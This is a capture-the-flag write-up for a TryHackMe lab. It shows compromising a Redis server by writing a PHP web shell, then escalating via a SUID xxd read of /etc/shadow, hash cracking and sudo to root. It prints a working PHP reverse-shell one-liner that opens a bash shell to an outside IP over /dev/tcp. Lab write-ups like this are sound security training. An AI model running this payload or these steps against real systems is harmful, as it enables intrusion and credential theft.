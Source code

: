 # Res - Writeup

**Date**: 27/03/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/res](https://tryhackme.com/room/res)

---

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

# Scan the machine, how many ports are open?

<figure><img src="../../.gitbook/assets/res0.png" alt=""><figcaption></figcaption></figure>

# What’s the database management system installed on the server? What port is the database management system running on?What's is the version of management system installed on the server?

<figure><img src="../../.gitbook/assets/res1.png" alt=""><figcaption></figcaption></figure>

# Compromise the machine and locate user.txt

First of all, let’s visit the webpage hosted on the port 80:

<figure><img src="../../.gitbook/assets/res2.png" alt=""><figcaption></figcaption></figure>

It displays a default page of an apache server recently installed.

As we have seen, there is a redis server running on port 6379. After some reading, I found that there is a way to interact with this service.

Let’s download the redis application:

[https://redis.io/docs/getting-started/](https://redis.io/docs/getting-started/) 

[https://redis.io/docs/manual/cli/](https://redis.io/docs/manual/cli/)

Let’s test the connection:

<figure><img src="../../.gitbook/assets/res3.png" alt=""><figcaption></figcaption></figure>

It seems like we have connection with the redis server!

<figure><img src="../../.gitbook/assets/res4.png" alt=""><figcaption></figcaption></figure>

The info command seems to be helpful to retrieve redis server information:

<figure><img src="../../.gitbook/assets/res5.png" alt=""><figcaption></figcaption></figure>

According to this webpage ([https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)) there is a way to do a Remote Code Execution on a redis server:

<figure><img src="../../.gitbook/assets/res6.png" alt=""><figcaption></figcaption></figure>

We should know the path where we want to write the php file. Since we have visited the page before, we know that the folder is: `/var/www/html`

So, following the steps we do the same in our case:

<figure><img src="../../.gitbook/assets/res7.png" alt=""><figcaption></figcaption></figure>

Now let’s visit the page:

<figure><img src="../../.gitbook/assets/res8.png" alt=""><figcaption></figcaption></figure>

It works, now let’s try to write a reverse shell in php:

<figure><img src="../../.gitbook/assets/res9.png" alt=""><figcaption></figcaption></figure>

Let’s open a netcat listener in our machine:

<figure><img src="../../.gitbook/assets/res10.png" alt=""><figcaption></figcaption></figure>

And let’s visit the rs.php file:

<figure><img src="../../.gitbook/assets/res11.png" alt=""><figcaption></figcaption></figure>

We got a connection but it quickly disconnects...

Let’s try with this other one-line php reverse shell:

```jsx
'<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.8.36.26/1234 0>&1\'"); ?>'
```

<figure><img src="../../.gitbook/assets/res12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/res13.png" alt=""><figcaption></figcaption></figure>

Yeah, this one works! 

<figure><img src="../../.gitbook/assets/res24.png" alt=""><figcaption></figcaption></figure>

We found the key file in the /home/vianka folder.

# What is the local user account password?

Before anything, let’s try to stabilize this shell:

<figure><img src="../../.gitbook/assets/res14.png" alt=""><figcaption></figcaption></figure>

Python is installed in the machine, so let’s use it:

<figure><img src="../../.gitbook/assets/res15.png" alt=""><figcaption></figcaption></figure>

Ok, shell stabilized, now let’s look for the local user account password. Can we read /etc/shadow file?

<figure><img src="../../.gitbook/assets/res16.png" alt=""><figcaption></figcaption></figure>

Nope, we can’t.

Something interesting in the history?

<figure><img src="../../.gitbook/assets/res17.png" alt=""><figcaption></figcaption></figure>

Let’s see if we find some keys in the user directory... nothing useful I can see...

After spending some time looking for ssh keys or something useful, I look for files with SUID activated:

<figure><img src="../../.gitbook/assets/res18.png" alt=""><figcaption></figcaption></figure>

From this list, xxd appears in the GTFO Bins list:

<figure><img src="../../.gitbook/assets/res19.png" alt=""><figcaption></figcaption></figure>

Exploiting this, we should be able to read /etc/shadow file!

<figure><img src="../../.gitbook/assets/res25.png" alt=""><figcaption></figcaption></figure>

Yeah! Now with the info of /etc/passwd, let’s use unshadow and John the ripper to crack the hash!

<figure><img src="../../.gitbook/assets/res26.png" alt=""><figcaption></figcaption></figure>

Unshadow done, now let’s crack it!

<figure><img src="../../.gitbook/assets/res27.png" alt=""><figcaption></figcaption></figure>

Cool!

# Escalate privileges and obtain root.txt

Let’s login as vianka and see if we have more permissions:

<figure><img src="../../.gitbook/assets/res20.png" alt=""><figcaption></figcaption></figure>

Enough permissions to access to root folder?

<figure><img src="../../.gitbook/assets/res21.png" alt=""><figcaption></figcaption></figure>

Nope. Let’s see what we can execute with sudo:

<figure><img src="../../.gitbook/assets/res22.png" alt=""><figcaption></figcaption></figure>

Really? We can run any command using sudo...

<figure><img src="../../.gitbook/assets/res23.png" alt=""><figcaption></figcaption></figure>

Woah

<figure><img src="../../.gitbook/assets/res28.png" alt=""><figcaption></figcaption></figure>

And this quickly we get the last flag!